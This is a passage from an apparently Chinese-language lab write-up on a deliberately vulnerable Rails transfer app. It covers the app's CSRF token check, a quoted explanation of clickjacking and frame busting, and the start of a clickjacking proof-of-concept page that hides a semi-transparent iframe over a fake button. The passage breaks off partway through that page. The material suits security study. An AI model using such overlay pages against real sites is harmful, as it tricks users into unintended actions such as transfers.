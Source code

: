```ruby
    if params[:tokeninput] != session[:token]
      @error = "Please enter the correct secret token!"
      render :super_secure_transfer_form
      return
    end
    post_transfer :super_secure_transfer_form
  end
```

发现 token 是用户登陆时随机生成的 base64 编码字符串。当输入的 token 不正确时，不会进行转账操作。

frame busting 相关技术：

> 基于Web Frame的攻击例如: ClickJacking，一般使用iframes去劫持用户的web session。目前最普遍的防御手段被称之为frame busting，即阻止当页面加载一个frame的时候对当前页面产生影响。
>
> Frame busting依靠防御代码来防止页面加载一个嵌套的frame，它是防御ClickJacking的主要手段。Frame busting同时还被用在保护login登录页面上，如果没有frame busting，那个这个login登录页面能够在任何的嵌套的子frame中打开。一些新型的高级ClickJacking技术使用Drag-and-Drop去提取敏感隐私数据并且注入到另一个frame中，完成数据窃取。
>
> 大多数的网站还仅仅是做了简单的代码防御，即把top.location(覆盖在原始页面上的"恶意"frame重定向回sefl.location("正确"的frame))。针对ClickJacking的防御并没有得到重视。

在本例子中，frame busting 的处理也十分简单：

`application.html.erb`

```html
  <% if not @disable_framebusting %>
      <script>
      // Framebusting.
      if(top.location != self.location){
              parent.location = self.location;
      }
      </script>
  <% end %> 
```

对于这种防御方法，我的理解是这样的:

这是一个对于frame覆盖的poc演示:

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN" "http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html>
<head>
    <title>Click Jack!</title>  
    <style type="text/css">  
        iframe
        {
            width: 900px;
            height: 250px; 

            /* Use absolute positioning to line up update button with fake button */
            position: absolute;
            top: -195px;
            left: -740px;
            z-index: 2;

            /* Hide from view */
            -moz-opacity: 0.5;
            opacity: 0.5;
            filter: alpha(opacity=0.5);
        }

        button
        {
            position: absolute;
```